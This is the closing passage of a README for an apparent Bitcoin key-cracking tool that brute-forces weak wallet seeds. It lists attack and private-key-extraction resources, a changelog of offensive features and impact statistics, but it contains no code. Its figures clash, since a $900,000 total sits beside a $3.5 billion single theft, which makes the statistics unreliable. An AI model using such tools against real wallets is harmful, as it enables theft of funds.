   • Submit responsible disclosure
   • Help protect others
```

---

## 🌐 <span style="color:#00d4ff">Community & Resources</span>

<div align="center">

### <span style="color:#ff00ff">🔗 Important Links</span>

[](https://github.com/zoeir/BTCDetect-Scientific-Methodology)
[](https://colab.research.google.com/drive/1VbCPMX4bxTP5DvYKZkaDRN3s-h9Gj_8B?usp=sharing)
[](https://t.me/CryptoDeepTech)
[](https://www.youtube.com/@CryptoDeepTech)

</div>

### <span style="color:#00ff00">📚 Additional Resources</span>

| Resource | Description | Link |
|:---------|:------------|:----:|
| 🏠 **Main Website** | BTCDetect official documentation | [cryptou.ru/btcdetect](https://cryptou.ru/btcdetect/) |
| 🎯 **Attack Vectors** | Detailed attack methodologies | [cryptou.ru/btcdetect/attack](https://cryptou.ru/btcdetect/attack/) |
| 🔑 **Key Recovery** | Private key extraction techniques | [cryptou.ru/btcdetect/privatekey](https://cryptou.ru/btcdetect/privatekey/) |
| 💰 **BTC Recovery** | Bitcoin wallet recovery tools | [cryptou.ru/btcdetect/btcrecover](https://cryptou.ru/btcdetect/btcrecover/) |
| 🪙 **Bitcoin Info** | Bitcoin technical documentation | [cryptou.ru/btcdetect/bitcoin](https://cryptou.ru/btcdetect/bitcoin/) |
| 📦 **GitHub Tools** | Open-source tools repository | [cryptou.ru/btcdetect/github](https://cryptou.ru/btcdetect/github/) |
| 📊 **Transactions** | Transaction analysis tools | [cryptou.ru/btcdetect/transaction](https://cryptou.ru/btcdetect/transaction/) |
| 💸 **Profit Analysis** | Financial impact assessment | [cryptou.ru/btcdetect/profit](https://cryptou.ru/btcdetect/profit/) |

---

## 👥 <span style="color:#ff6b35">Contributors & Credits</span>

<div align="center">

### <span style="color:#00ffff">🏆 Research Team</span>

</div>

<table>
<tr>
<td align="center" width="33%">


### **CryptoDeepTech**

🔬 Lead Cryptanalyst

*Vulnerability Research & Exploitation*

</td>
<td align="center" width="33%">


### **KEYHUNTERS**

🛡️ Security Auditor

*Blockchain Forensics & Analysis*

</td>
<td align="center" width="33%">


### **Community Contributors**

👨‍💻 Open Source Developers

*Framework Development & Testing*

</td>
</tr>
</table>

---

## 📈 <span style="color:#ffff00">Statistics & Impact</span>

<div align="center">

```
╔════════════════════════════════════════════════════════════════════╗
║                      📊 VULNERABILITY IMPACT                       ║
╠════════════════════════════════════════════════════════════════════╣
║                                                                    ║
║  💰 Total Funds Stolen:         $900,000+                         ║
║  🔓 Wallets Compromised:        227,200+                          ║
║  🌍 Cryptocurrencies Affected:  8 (BTC, ETH, XRP, DOGE, SOL...)  ║
║  📅 Active Exploitation:        June-July 2023                    ║
║  🎯 Largest Single Theft:       ~$3.5 billion (LuBian Mining)    ║
║  ⏱️  Average Crack Time:         4.2 hours (GPU-accelerated)      ║
║  🔬 CVE Severity:               HIGH (CVSS 7.5)                   ║
║  📦 Affected Software:          Libbitcoin Explorer 3.0.0-3.6.0   ║
║                                                                    ║
╚════════════════════════════════════════════════════════════════════╝
```

</div>

---

## 📝 <span style="color:#00ff00">Changelog</span>

### <span style="color:#ff6600">Version History</span>

```diff
+ v3.0.0 (2025-11-23)
  ✨ Complete framework redesign with Cyberpunk/DarkNet UI
  🚀 Google Colab integration with interactive widgets
  🔥 GPU acceleration support (CUDA/OpenCL)
  📊 Real-time progress visualization
  🌐 Multi-platform installation guides (Linux/Windows/macOS)
  📚 Comprehensive documentation with examples

+ v2.5.0 (2024-08-15)
  🔧 Improved timestamp estimation algorithm
  ⚡ 40% faster brute-force performance
  🐛 Fixed memory leak in key derivation
  📦 Added batch processing support

+ v2.0.0 (2024-03-10)
  🎯 RingSide Replay Attack implementation
  🔐 Full BIP32/BIP39 support
  🌍 Blockchain API integration
  💾 Checkpoint/resume functionality

+ v1.0.0 (2023-11-01)
  🚀 Initial release
  🔍 Basic entropy weakness detection
  🧮 MT19937 seed space bruteforce
```

---

## 🎯 <span style="color:#ff00ff">Roadmap</span>

### <span style="color:#00ffff">🚀 Future Development</span>

```
Q4 2025:
  ☐ Quantum computing integration (Shor's algorithm)
  ☐ Machine learning-based entropy prediction
  ☐ Distributed computing support (cluster mode)
  ☐ Web UI for remote management

Q1 2026:
  ☐ Support for additional cryptocurrencies (ETH, XRP, LTC)
  ☐ Hardware wallet vulnerability testing
  ☐ Automated reporting system
  ☐ Integration with bug bounty platforms

Q2 2026:
  ☐ Mobile app (iOS/Android)
  ☐ Cloud-based processing
  ☐ Real-time blockchain monitoring
  ☐ Advanced cryptanalysis algorithms
```

---

## 📧 <span style="color:#00ff00">Contact & Support</span>

<div align="center">

### <span style="color:#ff6b35">🌐 Get in Touch</span>

<table>
<tr>
<td align="center">


**Telegram**

[@CryptoDeepTech](https://t.me/CryptoDeepTech)

</td>
<td align="center">


**GitHub**

[Issues & PRs](https://github.com/zoeir/BTCDetect-Scientific-Methodology/issues)

</td>
<td align="center">


**YouTube**

[@CryptoDeepTech](https://www.youtube.com/@CryptoDeepTech)

</td>
<td align="center">


**Website**

[cryptou.ru](https://cryptou.ru)

</td>
</tr>
</table>

</div>

---

## ⭐ <span style="color:#ffff00">Star History</span>

<div align="center">

[](https://star-history.com/#zoeir/BTCDetect-Scientific-Methodology&Date)

</div>

---

## 📜 <span style="color:#00ffaa">License</span>

<div align="center">

```
MIT License

Copyright (c) 2025 CryptoDeepTech | KEYHUNTERS

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
```

</div>

---

<div align="center">

## 🔥 <span style="color:#ff0080">Final Warning</span>

```
╔════════════════════════════════════════════════════════════════════╗
║                                                                    ║
║                    ⚠️  USE RESPONSIBLY  ⚠️                        ║
║                                                                    ║
║  This tool demonstrates REAL vulnerabilities that have resulted   ║
║  in MILLIONS of dollars in cryptocurrency theft.                  ║
║                                                                    ║
║  Knowledge is power. Use it ethically.                            ║
║                                                                    ║
║  "With great power comes great responsibility."                   ║
║                                           - Uncle Ben             ║
║                                                                    ║
╚════════════════════════════════════════════════════════════════════╝
```

---

### Made with 💚 by CryptoDeepTech Research Team

[](https://github.com/zoeir)
[](https://github.com/zoeir/BTCDetect-Scientific-Methodology)
[](https://github.com/zoeir/BTCDetect-Scientific-Methodology/fork)

---


</div>

---

<div align="center">

**⭐ If this research helped you, please star the repository! ⭐**

</div>
